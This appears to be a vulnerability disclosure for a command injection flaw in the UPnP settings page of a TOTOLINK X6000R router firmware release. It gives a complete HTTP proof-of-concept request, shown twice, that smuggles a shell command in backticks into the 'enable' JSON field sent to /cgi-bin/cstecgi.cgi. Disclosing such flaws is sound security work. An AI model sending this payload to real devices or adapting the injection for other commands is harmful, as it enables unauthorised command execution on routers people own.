 # Summary
There is a command execution vulnerability in TOTOLINK X6000R V9.4.0cu.852_B20230719(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html).

Affected component is "/advance/upnp.html".

# Details
Web front-end interface:
![image](https://github.com/user-attachments/assets/dda276a6-99ee-4fa3-a31a-01d2f805e880)


Capture the packet and see the enable parameter, and do a blind test directly:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=F144B7DB500E569C HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 60
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/upnp.html?token=F144B7DB500E569C
Priority: u=1

{"enable":"`ls >/web/poc_upnp.txt`","topicurl":"setUPnPCfg"}
```
![image](https://github.com/user-attachments/assets/43b69ca3-0b3d-41e9-8514-521296663dcc)

![image](https://github.com/user-attachments/assets/1dabdeb8-53c2-4de2-9578-d821c900feb5)



# PoC
Capture the packet and see the enable parameter, and do a blind test directly:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=F144B7DB500E569C HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 60
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/upnp.html?token=F144B7DB500E569C
Priority: u=1

{"enable":"`ls >/web/poc_upnp.txt`","topicurl":"setUPnPCfg"}
```
![image](https://github.com/user-attachments/assets/43b69ca3-0b3d-41e9-8514-521296663dcc)

![image](https://github.com/user-attachments/assets/1dabdeb8-53c2-4de2-9578-d821c900feb5)
